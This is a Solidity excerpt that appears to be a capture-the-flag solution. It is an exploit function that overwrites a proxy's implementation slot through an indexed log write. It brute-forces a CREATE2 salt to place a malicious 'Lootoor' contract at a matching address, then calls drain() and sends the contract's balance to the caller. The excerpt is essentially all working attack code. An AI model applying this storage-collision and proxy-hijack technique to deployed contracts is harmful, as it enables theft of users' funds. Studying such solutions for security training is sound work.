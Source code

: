 ```solidity

    function exploit(address _privateLog, string memory _password) external {
        // 1. compute log entry 'index'
        uint256 actualAt;
        PrivateLog privateLog = PrivateLog(_privateLog);
        assembly {
            mstore(0x00, 2) // always slot 2
            actualAt := sub(0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc, keccak256(0x00, 0x20)) // implementation slot for proxy is 0x36...
        }

        // 2. bruteforce value to write so it points to a Lootoor instance
        // https://solidity-by-example.org/app/create2/
        bytes memory bytecode = type(Lootoor).creationCode;
        uint256 salt = 1337;
        while(true) {
            bytes32 hash = keccak256(
                abi.encodePacked(bytes1(0xff), address(this), salt, keccak256(bytecode))
            );
            address expectedAddress = address(uint160(uint(hash)));
            bytes memory expectedAddressArr = abi.encodePacked(expectedAddress);

            if(expectedAddressArr[expectedAddressArr.length - 1] == 0x3e) {
                break;
            }
            salt += 1;
        }
        // console.log("salt: %s", salt);

        address lootoorAddress;
        assembly {
            lootoorAddress := create2(
                callvalue(), // wei sent with current call
                // Actual code starts after skipping the first 32 bytes
                add(bytecode, 0x20),
                mload(bytecode), // Load the size of code contained in the first 32 bytes
                salt // Salt from function arguments
            )

            if iszero(extcodesize(lootoorAddress)) {
                revert(0, 0)
            }
        }

        // console.log("lootoor deployed at: %s", lootoorAddress);
        string memory actualValue = this.addressToStr(lootoorAddress);

        privateLog.updateLogEntry(
            actualAt,
            actualValue,
            _password,
            this.getSamplePasswordHash(_password)
        );

        Lootoor(_privateLog).drain();
        payable(msg.sender).transfer(address(this).balance);
    }

    fallback() external payable {}
}
```
